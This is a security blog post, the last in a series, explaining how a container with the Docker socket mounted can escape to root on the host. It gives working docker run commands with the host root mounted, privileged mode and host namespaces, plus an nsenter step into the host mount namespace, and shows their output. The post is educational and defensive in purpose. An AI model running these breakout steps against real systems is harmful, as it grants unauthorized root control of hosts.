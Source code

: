 ```yaml
---
title: "Container Breakouts – Part 3: Docker Socket"
date: 2020-07-30T14:20:35+02:00
draft: false
tags:
- docker
- breakout
- security
---
```



This post is part of a series and shows container breakout techniques that can be performed if a container is started with a mounted Docker socket inside the container.

<!--more-->

The following posts are part of the series:
- [Part 1: Access to root directory of the Host](../container-breakouts-part1)
- [Part 2: Privileged Container](../container-breakouts-part2)
- Part 3: Docker Socket

## Intro

You may have read for certain container deployments that it is absolutely necessary to link the socket into the container, but what are the implications? That is exactly what we are going to discuss in the last blog post in the series about container breakouts. 

## Docker Socket

You know, every time you have **access to the Docker Socket** (default location: `/var/run/docker.sock`) it **means** that you are **root on the host**. Here should be mentioned that it might be the case that you are not root on the system, if docker is used root-less. Some containerized applications may need access to the socket, e.g., for observation or local system management.

You have read correctly, local system management. As soon you have **access to** the **socket**, you can **manage** the local **system**. Okay, first at all, you can manage containers and these containers can afterward manage the system. 

So if you want to escalate from the container to the system, you can **interact** with the **Docker Socket manually or** just simple **install Docker** (on ubuntu: `sudo apt update && sudo apt install -y docker.io`) in the container. What the next step? Exactly, start a further container. 
### Known Techniques

First at all I will start with a short re-cap. We can start containers with the root directory mounted into the container. To do so, one must run the following command and continue reading with [Part 1](../container-breakouts-part1) of this series.

```bash
~# docker run --rm -it -v/:/hostfs ubuntu bash
root@95bc051624b9:/# 
``` 

The alternative would be to start a privileged container. This privileged container can interact with the kernel without limitations. To do so, one must run the following command and continue reading with [Part 2](../container-breakouts-part2) of this series.

```bash
~# docker run --rm --privileged -it ubuntu bash   
root@aad2c9378900:/#
```

These steps are a bit obvious, but explain what hove done wrong in the other cases

### Dropping Namespace Boundaries

As we can take from the amazing artwork by [Julia Evans](https://twitter.com/b0rk) and we already know that containerization is done by the use of Linux namespaces (details can be found in the man page `man namespaces`).
 
![container namespaces](../../images/container-ns.jpeg " Container namespaces by [Julia Evans](https://twitter.com/b0rk)")

To get details about which namespace is assigned to a process, we can take this information out of the `proc` filesystem (for each process `ls -l /proc/self/ns/`). The following namespaces are created for the start of a new container in the default configuration:
- inter process communication (`ipc`)
- mount (`mnt`)
- network (`net`)
- process id (`pid`)
- hostname (`uts`)

The [CIS Docker Benchmark](https://www.cisecurity.org/benchmark/docker/) recommends as well to configure docker in a way to spawn an own user namespace (`uid`).

If we want to break out of the container to get full system access we **start** a new **container with all (possible) namespaces** from the host via the docker socket. Only the `mnt` namespace cannot be set at container startup. Since we start our container **privileged**, there is no seccomp filter in place and we can use `nsenter` to **switch** to **mount namespace** of the `init` process.

```bash
~# ls -l /proc/self/ns/
total 0
lrwxrwxrwx 1 user user 0 Jul 15 09:02 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 ipc -> 'ipc:[4026532376]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 mnt -> 'mnt:[4026532374]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 net -> 'net:[4026532379]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 pid -> 'pid:[4026532377]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 pid_for_children -> 'pid:[4026532377]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 user -> 'user:[4026531837]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 uts -> 'uts:[4026532375]'

~# docker run --rm -it --privileged --network host --pid host --ipc host --uts host ubuntu  bash

root@arch:/# nsenter -t 1 -m

[root@arch /]# ls -l /proc/self/ns/
total 0
lrwxrwxrwx 1 root root 0 15. Jul 11:34 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 mnt -> 'mnt:[4026531840]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 net -> 'net:[4026531992]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 uts -> 'uts:[4026531838]'

[root@arch /]# ls -l /proc/1/ns/
total 0
lrwxrwxrwx 1 root root 0 15. Jul 11:03 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 mnt -> 'mnt:[4026531840]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 net -> 'net:[4026531992]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 uts -> 'uts:[4026531838]'

```

We can now behave as a user `root` with full access to the host system. 

## Conclusion

The final breakout technique was a bit more detailed about what docker does under the hood to secure containers. But, if you are root and can interact with the socket, there are no limitations. The last approach is the most OpSec-safe approach for easy container break out techniques.  

The listed container breakouts are in my humble opinion the most relevant one. The list is for sure not complete and as soon as I identify another important one, I will update, extend, and re-organize the content. 

I hope you enjoyed my little series and I am looking forward to if one of you has some ideas for extending container breakouts.

## Remarks

The list of proposed techniques is not complete and is mainly based on insecure container management. To name a few previous container breakouts that are based on vulnerabilities in docker here is a list to get an idea:

- [CVE-2019-5736: Escape from Docker and Kubernetes containers to root on host](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)
- [Docker Patched the Most Severe Copy Vulnerability to Date With CVE-2019-14271](https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/)

At the end of writing, I realized that [Jesse Hertz](mailto:jesse.hertz@nccgroup.trust) from [NCC Group](https://www.nccgroup.com/) has released [Abusing Privileged and Unprivileged Linux Containers]( https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf) which is an even more comprehensive collection to breakout of a container. A collection of tools that test for container breakouts have been collected by [Clint Gibler](https://twitter.com/clintgibler) in [Container Security – A collection of container security resources and tools, organized by category](https://tldrsec.com/blog/container-security/).

The focus of this series was on the operating system level. Nowadays containers are managed and orchestrated in a cluster environment by [Kubernetes](https://kubernetes.io/) or [Nomad](https://www.nomadproject.io/) to name at least two. Even the whole cloud stack is kept out of this series. These two areas will be addressed in another series.

## Final words

Since I am only a consumer of already existing research I want to give out a big thanks for sharing the knowledge that I have consumed in the past years from:

- [Brad Geesaman](https://twitter.com/bradgeesaman)
- [Chris Le Roy](https://twitter.com/brompwnie)
- [Clint Gibler](https://twitter.com/clintgibler) 
- [Duffie Cooley](https://twitter.com/mauilion)
- [Ian Coldwater](https://twitter.com/IanColdwater)
- [Jessie Frazelle](https://twitter.com/jessfraz)
- [Mark Manning](https://twitter.com/antitree) 
- [Matthias Luft](https://twitter.com/uchi_mata) 
- [Rory McCune](https://twitter.com/raesene)

To name a few – you are awesome – please continue !!


